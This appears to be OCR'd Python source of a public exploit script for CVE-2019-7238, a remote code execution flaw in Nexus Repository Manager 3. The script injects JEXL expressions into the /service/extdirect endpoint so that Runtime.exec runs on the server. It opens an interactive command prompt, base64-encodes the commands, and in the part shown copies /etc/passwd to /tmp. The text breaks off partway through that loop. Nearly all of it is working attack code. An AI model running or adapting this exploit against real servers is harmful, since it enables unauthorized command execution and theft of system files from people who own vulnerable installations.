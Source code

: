     print("\nNexus Repository Manager 3 Remote Code Execution - CVE-2019-7238 \nFound by @Rico and @voidfyoo\n")

    proxy = {
    }

    remote = 'http://127.0.0.1:8081'

    ARCH="LINUX"
    # ARCH="WIN"

    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    def checkSuccess(r):
        if r.status_code == 200:
            json_data = json.loads(r.text)
            if json_data['result']['total'] > 0:
                print("OK")
            else:
                print("KO")
                sys.exit()
        else:
            print("[-] Error status code", r.status_code)
            sys.exit()


    print("[+] Checking if Content-Selectors exist =>", end=' ')
    burp0_url = remote + "/service/extdirect"
    burp0_headers = {"Content-Type": "application/json"}
    burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==1"}, {
        "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
    r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json,
                  proxies=proxy, verify=False, allow_redirects=False)
    checkSuccess(r)
    print("")

    while True:
        try:
            if ARCH == "LINUX":
                command = input("command (not reflected)> ")
                command = base64.b64encode(command.encode('utf-8'))
                command_str = command.decode('utf-8')
                command_str = command_str.replace('/', '+')

                print("[+] Copy file to temp directory =>", end=' ')

                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"cp /etc/passwd  /tmp/passwd\")"}, { "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy, verify=False, allow_redirects=False)
                checkSuccess(r)
